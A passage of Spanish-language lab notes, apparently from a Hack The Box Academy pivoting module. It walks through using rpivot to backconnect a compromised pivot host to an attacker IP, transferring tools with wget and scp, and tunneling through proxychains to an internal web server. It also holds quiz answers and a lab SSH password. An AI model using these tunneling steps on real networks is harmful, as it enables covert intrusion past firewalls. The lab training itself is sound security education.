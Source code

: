 Rpivot permite que una máquina situada dentro de una red corporativa (por ejemplo la que tiene la IP privada 172.16.5.135) haga una conexión saliente a un servidor público al que sí se puede acceder desde Internet. Esa conexión se usa para exponer un puerto local de la máquina interna hacia el servidor público.
Así pues, desde Internet, accedo al puerto del servidor público y, por rpivot, ese tráfico llega al servicio que corre en la máquina interna.

Es como un túnel inverso o un “reverse SOCKS”: el cliente dentro del firewall abre el túnel hacia fuera, el servidor público escucha conexiones entrantes y las reenvía al cliente.
![[Pasted image 20251023162730.png]]

- PIVOT HOST:
	  10.129.202.64
- ATACANTE:
	  10.10.14.18
	  172.16.5.129
- VÍCTIMA:
	  172.16.5.135
## Clonando el recurso "rpivot"

Podemos iniciar nuestro servidor proxy SOCKS rpivot usando el siguiente comando para permitir que el cliente se conecte en el puerto 9999 y escuche en el puerto 9050 las conexiones proxy pivot.

```shell-session
Polika4RM@htb[/htb]$ git clone https://github.com/klsecservices/rpivot.git
Polika4RM@htb[/htb]$ sudo apt-get install python2.7
```

Si la instalación de Python da error, se deberá descargar con:

```
Polika4RM@htb[/htb]$ sudo apt-get install python2.7
```

```shell-session
Polika4RM@htb[/htb]$ curl https://pyenv.run | bash
Polika4RM@htb[/htb]$ echo 'export PYENV_ROOT="$HOME/.pyenv"' >> ~/.bashrc
Polika4RM@htb[/htb]$ echo 'command -v pyenv >/dev/null || export PATH="$PYENV_ROOT/bin:$PATH"' >> ~/.bashrc
Polika4RM@htb[/htb]$ echo 'eval "$(pyenv init -)"' >> ~/.bashrc
Polika4RM@htb[/htb]$ source ~/.bashrc
Polika4RM@htb[/htb]$ pyenv install 2.7
Polika4RM@htb[/htb]$ pyenv shell 2.7
```

Me descargo dos archivos del repositorio:
- server.py:
	  A ejecutar desde la máquina atacante.
- client.py:
	  Lo ejecutaré desde la máquina de dentro de la red.

## Ejecutando server.py desde el atacante
Podemos iniciar nuestro servidor proxy SOCKS rpivot para conectarnos a nuestro cliente en el servidor Ubuntu comprometido usando server.py.
Esta máquina atacante escuchará conexiones entrantes que tendrán origen el servidor Ubuntu. 
```shell-session
Polika4RM@htb[/htb]$ python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

En server-ip, este campo es la dirección IP en la que quiero que escuche. Si pongo 0.0.0.0 escuchará en todas las interfaces
## Transfiriendo rpivot al Target
Antes de ejecutar client.py, necesitamos transferir rpivot al destino. Podemos hacerlo con este comando SCP:
```shell-session
Polika4RM@htb[/htb]$ scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```

## Ejecutando client.py desde el Pivot Target

Ejecutaremos:
```shell-session
ubuntu@WEB01:~/rpivot$ python2.7 client.py --server-ip 10.10.14.18 --server-port 9999

Backconnecting to server 10.10.14.18 port 9999
```

El server-ip 10.10.14.18 es la IP de la máquina atacante.
## Confirmando la conexión
En el atacante, veré: 
```shell-session
New connection from host 10.129.202.64, source port 35226
```

----

Ahora configuraremos proxychains para que pivote sobre nuestro servidor local en 127.0.0.1:9050 en nuestro host de ataque, que fue iniciado inicialmente por el servidor Python.

```
Polika4RM@htb[/htb]$ tail -4 /etc/proxychains.conf

# meanwile
# defaults set to "tor"
socks4 	127.0.0.1 9050
```

Finalmente, deberíamos poder acceder al servidor web en nuestro servidor, que está alojado en la red interna 172.16.5.0/23 en 172.16.5.135:80, usando proxychains y Firefox.

```shell-session
proxychains firefox-esr 172.16.5.135:80
```

Al igual que con el proxy pivote mencionado anteriormente, podrían darse situaciones en las que no podamos migrar directamente a un servidor externo (host de ataque) en la nube. Algunas organizaciones tienen un proxy HTTP con autenticación NTLM configurado con el controlador de dominio. En tales casos, podemos proporcionar una opción adicional de autenticación NTLM a rpivot para que se autentique a través del proxy NTLM, proporcionando un nombre de usuario y una contraseña. En estos casos, podríamos usar el archivo client.py de rpivot de la siguiente manera:

```shell-session
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```
---

**Target:**
**1. From which host will rpivot's server.py need to be run from? The Pivot Host or Attack Host? Submit Pivot Host or Attack Host as the answer.**
Respuesta: Attack Host

**2. From which host will rpivot's client.py need to be run from? The Pivot Host or Attack Host. Submit Pivot Host or Attack Host as the answer.**
Respuesta: Pivot Host


**SSH to 10.129.140.64 (ACADEMY-PIVOTING-LINUXPIV) with user "ubuntu" and password "HTB_@cademy_stdnt!"**
**3. Using the concepts taught in this section, connect to the web server on the internal network. Submit the flag presented on the home page as the answer.**

Me descargo:
```
git clone https://github.com/klsecservices/rpivot.git
```

```
Polika4RM@htb[/htb]$ sudo apt-get install python2.7
```

```shell-session
Polika4RM@htb[/htb]$ curl https://pyenv.run | bash
Polika4RM@htb[/htb]$ echo 'export PYENV_ROOT="$HOME/.pyenv"' >> ~/.bashrc
Polika4RM@htb[/htb]$ echo 'command -v pyenv >/dev/null || export PATH="$PYENV_ROOT/bin:$PATH"' >> ~/.bashrc
Polika4RM@htb[/htb]$ echo 'eval "$(pyenv init -)"' >> ~/.bashrc
Polika4RM@htb[/htb]$ source ~/.bashrc
Polika4RM@htb[/htb]$ pyenv install 2.7
Polika4RM@htb[/htb]$ pyenv shell 2.7
```


Desde el atacante ejecuto el server.py:
```
┌──(polika4r㉿kali)-[~/rpivot]
└─$ python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

Comparto la carpeta rpivot:
```
┌──(polika4r㉿kali)-[~/rpivot]
└─$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.140.64 - - [23/Oct/2025 17:00:26] "GET /client.py HTTP/1.1" 200 -

```

Y desde el target pivot recibo la carpeta (de forma recursiva), con:
```
ubuntu@WEB01:~$ wget -r http://10.10.14.43:8000/rpivot
```

```
ubuntu@WEB01:~/10.10.14.43:8000/rpivot$ python2.7 client.py --server-ip 10.10.14.43 --server-port 9999
Backconnecting to server 10.10.14.43 port 9999

```

En el atacante aparecerá:
```
┌──(polika4r㉿kali)-[~/rpivot]
└─$ python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
New connection from host 10.129.140.64, source port 39978
```

Me aseguro que el proxychains está bien seteado:
```
┌──(polika4r㉿kali)-[~]
└─$ tail -4 /etc/proxychains4.conf                      
# meanwile
# defaults set to "tor"
```

En otra sesión de SHH aparte, ejecuto para ver la red interna:
```
buntu@WEB01:~$ ip a
3: ens224: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:8a:14:19 brd ff:ff:ff:ff:ff:ff
    inet 172.16.5.129/23 brd 172.16.5.255 scope global ens224
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:fe8a:1419/64 scope link 
       valid_lft forever preferred_lft forever

```

La cual es: 172.16.5.129/23

172.16.5.135 -p80


Desde el atacante ejecuto:
